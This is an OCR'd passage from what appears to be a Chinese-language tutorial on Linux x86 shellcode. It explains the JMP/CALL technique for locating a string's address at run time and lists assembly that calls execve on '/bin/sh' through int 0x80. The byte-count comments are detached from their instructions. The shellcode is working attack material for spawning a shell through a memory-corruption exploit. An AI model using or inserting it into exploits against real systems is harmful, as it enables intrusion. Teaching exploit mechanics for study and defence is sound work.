 解决这个问题的一个办法就是使用一条额外的JMP和CALL指令. 因为这两条指令编码使
用的都是 相对于IP的偏移地址而不是绝对地址, 所以我们可以在ShellCode的最开始加
入一条JMP指令, 在string前加入一条CALL指令. 只要我们计算好程序编码的字节长度
,就可以使JMP指令跳转到CALL指令处执行,而CALL指令则指向JMP的下一条指令,因为在
执行CALL指令时,CPU会将返回地址(在这里就是string的地址)压入堆栈,所以这样我们
就可以在运行时获得string的绝对地址.通过这个地址加偏移的间接寻址方法,我们还
可以很方便地存取string_addr和null_addr.

------------------------------------------------------------------------------
经过上面的修改,我们的ShellCode变成了下面的样子:

jmp  0x20
popl esi
movb $0x0,0x7(%esi)
movl %esi,0x8(%esi)
movl $0x0,0xC(%esi)
movl $0xb,%eax
movl %esi,%ebx
leal 0x8(%esi),%ecx
leal 0xC(%esi),%edx
int  $0x80
call -0x25
string db "/bin/sh",0 
string_addr dd 0
null_addr 　dd 0 # 2 bytes，跳转到CALL
# 1 byte， 弹出string地址
# 4 bytes，将string变为以'\0'结尾的字符串 
# 7 bytes 
# 5 bytes
# 2 bytes
# 3 bytes
# 3 bytes
# 2 bytes
# 5 bytes，跳转到popl %esi



------------------------------------------------------------------------------------
